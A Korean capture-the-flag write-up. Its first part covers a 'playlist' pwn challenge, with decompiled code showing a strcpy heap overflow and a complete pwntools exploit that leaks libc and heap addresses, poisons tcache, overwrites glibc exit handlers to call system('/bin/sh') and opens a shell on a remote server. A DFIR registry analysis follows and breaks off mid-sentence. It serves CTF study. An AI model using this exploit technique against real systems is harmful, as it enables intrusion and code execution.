 작성자 : 조수호(shielder)

## pwn / playlist

```C
unsigned __int64 create()
{
  int i; // [rsp+0h] [rbp-120h]
  int v2; // [rsp+4h] [rbp-11Ch]
  int v3; // [rsp+4h] [rbp-11Ch]
  char *dest; // [rsp+8h] [rbp-118h]
  char s[128]; // [rsp+10h] [rbp-110h] BYREF
  char buf[136]; // [rsp+90h] [rbp-90h] BYREF
  unsigned __int64 v7; // [rsp+118h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  if ( song_len <= 63 )
  {
    memset(s, 0, sizeof(s));
    memset(buf, 0, 0x80uLL);
    printf("Enter song name: ");
    v2 = read(0, buf, 0x80uLL);
    if ( buf[v2 - 1] == 10 )
      buf[v2 - 1] = 0;
    printf("Enter artist: ");
    v3 = read(0, s, 0x80uLL);
    if ( s[v3 - 1] == 10 )
      s[v3 - 1] = 0;
    if ( buf[0] && s[0] )
    {
      dest = (char *)malloc(0x100uLL);
      if ( dest )
      {
        strcpy(dest, buf);
        strcpy(dest + 128, s);
        for ( i = 0; i <= 63; ++i )
        {
          if ( !song_chunk[i + 8] )
          {
            song_chunk[i + 8] = (__int64)dest;
            break;
          }
        }
        ++song_len;
        puts("Song added to playlist!");
      }
      else
      {
        puts("Memory allocation failed!");
      }
    }
    else
    {
      puts("Invalid input!");
    }
  }
  else
  {
    puts("Playlist is full!");
  }
  return v7 - __readfsqword(0x28u);
}
```

`create`의 `strcpy`에서 힙 오버플로우가 발생한다. 이를 이용해서 size 조작을 할 수 있고, 서로 다른 위치에 있는 unsorted bin이 두 개 있으면 힙주소도 저장되기 때문에 립씨, 힙릭 모두 가능하다. 익스는 `strcpy`가 null까지만 복사하고, null까지 복사하기 때문에 가장 편한 방법인 `exit handler overwrite`로 진행하였다.

## ex.py

```python
from pwn import *
from tqdm import *
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('-r', '--remote', action='store_true', help='Connect to remote server')
parser.add_argument('-g', '--gdb', action='store_true', help='Attach GDB debugger')
args = parser.parse_args()

gdb_cmds = [
    'set follow-fork-mode parent',
    'b *exit',
    'c'
]

binary = './prob'
 
context.binary = binary
context.arch = 'amd64'
# context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

if args.remote:
    p = remote("43.200.69.175", 31338)
else:
    p = process(binary)
    if args.gdb:
        gdb.attach(p, '\n'.join(gdb_cmds))
l = ELF('./libc.so.6')

def create(ctt1 : int, ctt2 : bytes):
    p.sendlineafter(b'> ', b'1')
    p.sendafter(b': ', ctt1)
    p.sendafter(b': ', ctt2)

def delete(idx : int):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b': ', str(idx).encode())

def read():
    p.sendlineafter(b'> ', b'3')

for i in trange(50):
    create(b'a', b'a')
delete(0)
create(b'a' * 8 + p16(0x551), b'a' * 0x80)
delete(1)
create(b'a', b'a') # 1
read()
p.recvuntil(b'2. ')
l.address = u64(p.recvn(6).ljust(8, b'\x00')) - 0x203b20
print(hex(l.address))

create(b'a', b'a') # 2
delete(2)
read()
p.recvuntil(b'50. ')
heap_base = u64(p.recvn(5).ljust(8, b'\x00')) << 12
print(hex(heap_base))

point_guard = l.address - 0x2890
initial = l.address + 0x204fc0
print(hex(point_guard))
print(hex(initial))
create(b'a', b'a') # 3
create(b'a', b'a') # 4
delete(3)
delete(2)
delete(1)
create(b'a' * 0x10 + p64(point_guard ^ (heap_base >> 12)), b'a' * 0x80)
for i in trange(7, 2, -1):
    delete(1)
    create(b'a' * (8 + i), b'a' * 0x80)
delete(1)
create(b'a' * 0x8 + p64(0x111), b'a' * 0x80)
create(b'a', b'a') # 2
create(b'a' * 0x8, b'a' * 1)
delete(13)
delete(2)
delete(1)
# p.interactive()
create(b'a' * 0x10 + p64((initial + 0x10) ^ (heap_base >> 12)), b'a' * 0x80)
for i in trange(7, 2, -1):
    delete(1)
    create(b'a' * (8 + i), b'a' * 0x80)
delete(1)
create(b'a' * 0x8 + p64(0x111), b'a' * 0x80)
create(b'a', b'a') # 2
binsh = list(l.search(b'/bin/sh'))[0]
sys_enc = rol(l.sym['system'] ^ u64(b'a' * 8), 0x11)
create(b'b' * 0x8 + p64(sys_enc) + p64(binsh), b'a' * 1)
idx = 15

for i in trange(7, 0, -1):
    idx += 1
    delete(idx)
    delete(2)
    delete(1)
    create(b'a' * 0x10 + p64((initial - 0x10) ^ (heap_base >> 12)), b'a' * 0x80)
    for j in range(7, 2, -1):
        delete(1)
        create(b'a' * (8 + j), b'a' * 0x80)
    delete(1)
    create(b'a' * 0x8 + p64(0x111), b'a' * 0x80)
    create(b'a', b'a') # 2
    create(b'c' * 0x20 + b'\x04' * i, b'a')
print(idx)
for i in trange(15, -1, -1):
    if i == 8 : i -= 1
    idx += 1
    delete(idx)
    delete(2)
    delete(1)
    create(b'a' * 0x10 + p64((initial - 0x10) ^ (heap_base >> 12)), b'a' * 0x80)
    for j in range(7, 2, -1):
        delete(1)
        create(b'a' * (8 + j), b'a' * 0x80)
    delete(1)
    create(b'a' * 0x8 + p64(0x111), b'a' * 0x80)
    create(b'a', b'a') # 2
    create(b'\x01' * (0x10 + i), b'a')
p.sendlineafter(b'> ', b'4\n')
p.interactive()
```
![[Pasted image 20251024162846.png]]
# dfir / 시나리오-1

`C:\Windows\System32\config\SYSTEM`에서 `ControlSet001\Control\ComputerName\ComputerName` 레지스트리에서 호스트 네임 `DESKTOP-ABDAIP8`를 확인할 수 있다.  `ControlSet001\Tcpip\Parameters\Interfaces` 레지스트리에서 IP `192.168.18.123`을 확인할 수 있다. `ControlSet001\Control\TimeZoneInformation`에서 KST를 사용함을 확인하고, `C:\Windows\System32\config\SOFTWARE`에서 `Microsoft\Windows NT\CurrentVersion`에서 InstallDate `1760081313`을 확인할 수 있고, 이는 한국시간으로 2025년 10월 10일 16시 28분 33초이다. 크롬의 히스토리에서 다른 정상적인 파일 사이에 Guide.zip이라는 수상한 팡